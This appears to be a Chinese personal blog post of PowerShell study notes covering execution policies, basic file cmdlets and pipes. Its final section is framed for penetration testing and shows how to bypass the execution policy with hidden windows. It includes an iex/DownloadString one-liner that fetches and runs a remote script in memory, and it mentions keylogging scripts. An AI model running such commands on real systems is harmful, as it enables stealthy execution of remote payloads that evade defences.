 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      powershell笔记整理               # 标题 
subtitle:   回顾整理一下之前的学习笔记
date:       2020-03-30              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```


## 0x00powershell简单介绍：
> windows powershell是一种命令行外壳程序和脚本环境，它内置在每个受支持的windows（windows7、windows 2008 R2和更高版本）版本中，可以利用.NET framework的强大功能。
powershell的优点：
- ·windows7以上版本默认安装
- ·powershell脚本可以运行在内存中，不需要写入磁盘
- ·ps脚本可以跨系统，许多工具也是基于powershell开发的
- ·很多安全软件不能检测到powershell的活动
- ·cmd.exe通常会被阻止运行，但是powershell不会
- ·可以用来管理活动目录

powershell的有关基本概念：      
2.1powershell文件：  
一个powershell脚本其实就是一个简单的文本文件，拓展名为.PS1.其中的powershell命令独立一行。  
2.2执行策略：  
为防止恶意脚本的执行，powershell有一个执行策略，默认情况下，这个执行策略被设为受限、所以在powershell脚本无法执行时，可以使用下面的cmdlet命令确定当前的执行策略。  
Get-ExecutionPolicy：
- ·Restricted：脚本不能运行
- ·RemoteSigned：本地创建的脚本可以运行，从网上下载的脚本不能运行（拥有数字证书签名的除外）
- ·AllSigned:仅当脚本由受信任的发布者签名时才能运行。
- ·Unrestricted：允许所有的script运行

可以利用下面的cmdlet命令设置powershell的执行策略  
`Set-ExecutionPolicy <policy name>  `  
2.3运行脚本：  
运行一个ps脚本，必须键入完整的路径和文件名，如果恰好ps脚本位于系统目录中，那么可以".\xxx.ps1"直接执行  
2.4管道：  
管道的作用是将一个命令的输入作为另一个命令的输入，两个命令用管道符号（|）连接。  
例如：get-process p* | stop-process  
3、powershell常用命令：  
文件操作：  
·新建目录：new-item whitecellclub-itemtype directory  
·新建文件：new-item light.txt-itemtype file  
·删除目录: remove-item whitecellclub  
·显示文本内容：get-content test.txt  
·设置文本内容：set-content test.txt-value"hello,world"  
追加内容：add-content light.txt-value"I love you"  
清除内容：clear-content test.txt  
如需帮助，输入help命令显示帮助菜单  
运行powershell脚本时，需要用管理员权限将restricted策略改成unrestricted，所以在渗透时，就需要采用一些方法绕过策略来执行脚本，如下：  
- ①绕过本地权限执行：`Powershell.exe-executionpolicy bypass-file xxx.ps1`,执行本地文件
- ②本地隐藏绕过权限执行脚本：`Powershell.exe-executionpolicy bypass-windowstyle hidden-nologo-noninteractive-noprofile-file xxx.ps1`
- ③用iex下载远程ps1脚本绕过权限执行：Powershell.exe-executionpolicy bypass-windowstyle hidden-noprofile-noni iex(new-objectnet.webclient) .downloadstring("xxx.ps1");[parameters]

参数说明：
Windowstyle hidden:隐藏窗口
Nologo: 启动不显示版权标志的powershell
Noninteractive(noni):非交互模式，powershell不为用户提供交互的提示
noprofile（nop）：powershell控制台不加载当前用户的配置文件
noexit：执行后不退出脚本，在使用键盘记录等脚本时非常重要、



